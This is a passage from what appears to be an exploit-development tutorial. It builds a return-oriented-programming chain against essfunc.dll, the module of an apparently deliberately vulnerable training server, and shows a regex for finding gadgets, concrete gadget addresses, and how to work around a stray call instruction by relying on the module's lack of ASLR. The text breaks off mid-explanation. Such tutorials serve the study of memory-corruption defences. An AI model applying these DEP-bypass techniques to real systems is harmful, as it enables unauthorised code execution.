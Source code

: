 Our next hurdle involves finding a gadget that performs the opposite of the one we've just discussed—specifically, moving a `DWORD` into a pointer, in other words:

```
mov [r32], r32
```

The two involved registers must be different in this case. The source register should contain the `VirtualProtect` address, while the destination register will point to the beginning of the skeleton.

To expedite the gadget search, using a regular expression like the one below can be helpful:

```text
mov\s\s\[e\w\w\],\se\w\w
```

This query yields four gadgets that match:

```text
0x62501ea0: and al, 0x20 ; mov  [esp+0x00], 0x62505388 ; mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]
0x62501ea9: mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC] 
0x62501ea2: mov  [esp+0x00], 0x62505388 ; mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]
0x62501e9e: mov eax,  [esp+0x20] ; mov  [esp+0x00], 0x62505388 ; mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]
```

Upon closer inspection, these gadgets turn out to be variations of the same core instruction set, all containing `mov [ebx], eax` at the same address `0x62501ea9`. Unfortunately, these gadgets seem problematic, particularly due to the call to a seemingly arbitrary pointer.

In scenarios where a gadget might introduce unintended effects—such as an arbitrary call instruction—it’s wise to search for alternative options, like:

```text
push eax
pop [ebx]
...
ret
```

Note: There are a few more esoteric gadgets that can achieve the behavior however they rely on the first `DWORD` of the pointing referenced by the destination register to be `0x00`.

Despite the search, no suitable alternatives were discovered, leaving us with the initial problematic gadget:

```text
mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC] 
```

So, the pressing question is, how to handle the `call [0x625070DC]` instruction? Fortunately, since `ASLR` is not enabled on this module, and given the unique preferred base address, the pointer at `0x625070DC` will be valid every time `essfunc.dll` is loaded into memory.

By leveraging the approach we took in the previous challenge, we can manipulate the memory in a way that makes the pointer at `0x625070DC` point to a gadget simulating a `ret` instruction. Just like we saw before, invoking a `call` instruction will push the subsequent instruction's address onto the stack to act as a return address. The gadget we choose must then execute this specific sequence:
